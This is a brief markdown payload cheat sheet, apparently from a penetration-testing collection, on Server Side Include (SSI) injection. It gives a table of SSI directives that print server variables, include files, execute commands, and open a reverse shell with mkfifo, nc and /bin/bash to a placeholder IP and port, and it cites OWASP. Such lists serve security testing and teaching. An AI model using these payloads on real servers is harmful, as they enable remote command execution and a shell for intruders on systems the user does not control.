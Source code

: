 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.


## Summary

* [Payloads](#payloads)
* [References](#references)


## Payloads

| Description             | Payload |
|-------------------------|---------|
| Print a date            | `<!--#echo var="DATE_LOCAL" -->` |
| Print all the variables | `<!--#printenv -->` |
| Include a file          | `<!--#include file="includefile.html" -->` |
| Execute commands        | `<!--#exec cmd="ls" -->` |
| Doing a reverse shell   | `<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` |


## References

* [Server-Side Includes (SSI) Injection - OWASP](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
